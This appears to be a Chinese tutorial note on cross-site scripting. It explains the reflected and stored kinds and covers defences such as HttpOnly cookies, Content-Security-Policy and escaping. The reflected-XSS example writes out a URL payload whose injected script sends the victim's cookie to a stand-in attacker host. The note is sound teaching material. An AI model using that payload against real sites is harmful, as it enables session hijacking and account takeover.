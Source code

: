 ## XSS

XSS跨站脚本攻击。通常指攻击者通过”HTML注入“篡改了网页，插入了恶意脚本，从而用户浏览网页时，对用户的浏览器进行控制或者获取用户的敏感信息的一种攻击方式

被注入恶意JavaScript会怎么

1. **可以窃取cookie信息**。恶意的JavaScript可以通过`document.cookie`获取cookie信息，然后通过XMLHttpRequest加上CORS功能将数据发送给恶意服务器；恶意服务器拿到用户cookie信息只会，就可以再其他电脑上模拟用户登录，进行转账操作
2. **可以监听用户行为**。通过`addEventListener`接口来监听键盘事件，比如可以获取用户输入的银行卡等信息。
3. **可以修改DOM**
4. 可以在页面内生成浮窗广告

**XSS攻击可以分为三类：反射性，存储型，基于DOM型**

### 反射型

- 用户将一段含有恶意代码的请求提交给服务器
- 服务器在接收请求时，又将恶意代码反射给浏览器端，这就是反射型XSS攻击

例子：

- 用户登录可信任的服务器，得到cookie
- 攻击者将他自己准备好的URL提交给客户`https://wahh-app.com/error.php?message=<script>var + i = nre + Image;+i.src="http://attack.com/"%2bdocument.cookies;</script>`
- 用户向可信服务器请求攻击者的URL
- 服务器响应用户请求，由于存在XSS漏洞，响应中包含了攻击者创建的JavaScript代码
-  用户浏览器收到攻击者的JavaScript代码，像执行从应用程序收到的其他代码一样，浏览器执行这段代码。
- 攻击者创建的恶意JavaScript代码，将用户的cookie发送到自己的服务器中
- 攻击者使用截获的令牌劫持用户的会话，从而访问该用户的个人信息，并"代表"该用户执行任意操作。

利用XSS漏洞的攻击之所以取得成功，是因为攻击者的恶意JavaScript是由wahh-app.com送交给它的。当用户请求攻击者的URL时，浏览器向https://wahh-app.com/ error.php提交一个请求，然后应用程序返回一个包含一段JavaScript的页面。和从wahh-app.com收到的任何 JavaScript一样，浏览器执行这段脚本，因为用户信任wahh-app.com。这也就是为何攻击的脚本能够访问wahh-app.com发布的 cookie的原因，



### 持久型XSS

 存储型会把用户输入的数据“存储”在服务器。 

持久型XSS一般存在与Form表单中，如文章留言等，黑客利用XSS的漏洞，将内容经正常提交进入数据库持久保存，当前端页面获得后端从数据库中读取的注入代码时，恰好将其渲染执行。

 这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。 

攻击成功需要同时满足以下几个条件：

- POST请求提交表单后端没做转义直接入库
- 后端从数据库中取出的数据没做转义直接输出给前端
- 前端拿到后端数据没做转义直接渲染成DOM

持久型XSS特点：

- 持久性，植入在数据库中

**如何防御**

- `HttpOnly`

  由于很多XSS攻击都是盗取cookie的，因此可以通过使用HttpOnly属性直接通过`document.cookie`来获取cookie

   `HttpOnly`是在 `Set-Cookie`时标记的

   HttpOnly 并非阻止 XSS 攻击，而是能阻止 XSS 攻击后的 Cookie 劫持攻击。 

- CSP(网页安全策略)
  - CSP的制度就是白名单制度，开发者明确告诉客户端，哪些外部元素可以加载和执行，等同于提供了白名单，它的实现和执行全部由浏览器完成，开发者只需要提供配置。这种情况下，攻击者就算发现漏洞，也没法注入脚本，除非还控制一台列入了白名单的可信主机
  - 开启方式：HTTP头信息的Content-Security-Policy字段
  - default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';
- 转义字符
  - **用户的输入永远不可信，最普遍的做法就是转义输入输出内容**，对于引号(&quto;)、尖括号(<:&lt >&gt)、斜杠(&#x2F)进行转义
  - 使用使用 npm 包来简化操作，js-xss(第三方库)来实现转义



